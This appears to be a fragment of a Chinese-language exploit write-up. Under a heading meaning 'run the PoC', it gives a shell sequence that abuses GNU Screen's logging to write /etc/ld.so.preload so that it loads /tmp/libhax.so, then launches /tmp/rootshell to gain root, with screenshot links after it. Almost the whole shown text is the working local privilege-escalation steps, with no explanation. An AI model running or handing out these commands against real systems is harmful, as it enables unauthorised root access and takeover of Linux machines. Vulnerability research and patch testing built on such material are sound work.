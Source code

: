 运行 poc

```
cd /etc
umask 000
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so"
screen -ls
/tmp/rootshell
whoami
```

![12](/assets/img/12.png)

![13](/assets/img/13.png)
